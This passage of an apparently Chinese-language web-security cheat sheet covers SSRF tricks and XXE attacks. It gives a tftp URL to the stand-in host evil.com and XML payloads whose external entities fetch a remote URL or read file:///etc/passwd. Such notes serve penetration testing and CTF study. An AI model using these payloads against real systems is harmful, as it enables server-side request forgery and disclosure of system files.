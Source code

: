 - Content-Length
    - 送超大Content-length
    - 连线hang住判断是否为HTTP Service

## UDP

- tftp
    - `tftp://evil.com:1234/TEST`
    - syslog

---

SSRF Bible:

https://docs.google.com/document/d/1v1TkWZtrhzRLy0bYXBcdLUedXGb9njTNIJXa3u9akHM/edit

Testing Payload:

https://github.com/cujanovic/SSRF-Testing


# XXE

## 内部实体

```xml
<!DOCTYPE kaibro[
    <!ENTITY param "hello">
]>
<root>&param;</root>
```

## 外部实体

- `libxml2.9.0`以后，预设不解析外部实体
- `simplexml_load_file()`旧版本中预设解析实体，但新版要指定第三个参数`LIBXML_NOENT`
- `SimpleXMLElement` is a class in PHP
    - http://php.net/manual/en/class.simplexmlelement.php

```xml
<!DOCTYPE kaibro[
    <!ENTITY xxe SYSTEM "http://rs.panja.cc/xxe.txt">
]>
<root>&xxe;</root>
```

```xml
<!DOCTYPE kaibro[
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>&xxe;</root>
```

### XXE on Windows
